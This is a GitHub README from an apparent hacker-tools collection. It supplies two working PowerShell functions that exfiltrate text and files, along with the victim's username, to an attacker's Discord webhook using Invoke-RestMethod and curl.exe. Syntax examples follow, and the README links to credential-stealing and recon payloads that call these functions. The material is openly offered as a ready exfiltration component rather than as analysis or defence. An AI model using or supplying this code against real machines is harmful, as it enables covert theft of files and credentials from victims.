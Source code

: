 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Discord-Upload

<p align="center">
      <a href="https://www.youtube.com/watch?v=VPU7dFzpQrM">
        <img src=https://i.ytimg.com/vi/VPU7dFzpQrM/hqdefault.jpg width="300" alt="C#" />
      </a>
      <br>YouTube Tutorial
</p>

## Description

These functions are used to upload either text or other files to your discord via a webhook 

## The Functions

### [UploadText-Discord] 

This function is used to exfil text to your discord. Can be written out or stored in a variable.

Just replace `$hookurl` with YOUR discord webhook

```
function UploadText-Discord {

  [CmdletBinding()]
  param (    
  [Parameter (Position=0,Mandatory = $True)]
  [string]$text
  ) 
  
  $hookUrl = 'YOUR-DISCORD-WEBHOOK'
  
$Body = @{
  'username' = $env:username
  'content' = $text
}

Invoke-RestMethod -Uri $hookUrl -Method 'post' -Body $Body
}
```
----------------------------------------------------------------------------------------------------------------------------------
### [Syntax]

```
UploadText-Discord -text "Text to exfil"

or

UploadText-Discord "Text to exfil"

or

UploadText-Discord $variable
```

----------------------------------------------------------------------------------------------------------------------------------

### [UploadFile-Discord] 

This function is used to upload files to your discord. 

Just replace `$hookurl` with YOUR discord webhook

The `$text` parameter is optional

```
function UploadFile-Discord {

[CmdletBinding()]
param (

    [parameter(Position=0,Mandatory=$True)]
    [string]$file,
    [parameter(Position=1,Mandatory=$False)]
    [string]$text = 'file uploaded'
)

$hookurl = 'YOUR-DISCORD-WEBHOOK'

$Body = @{
  'username' = $env:username
  'content' = $text
}

Invoke-RestMethod -ContentType 'Application/Json' -Uri $hookurl  -Method Post -Body ($Body | ConvertTo-Json);
curl.exe -F "file1=@$file" $hookurl
}
```

----------------------------------------------------------------------------------------------------------------------------------
### [Syntax]
```
UploadFile-Discord -file "file.txt" -text "this is a text file"

or

UploadFile-Discord -file "image.jpg" -text "this is an iamge"
```


<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that can use one of these functions:

[ADV-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)

[ET-Phone-Home](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ET-Phone-Home)

[Credz-Plz](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Credz-Plz)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
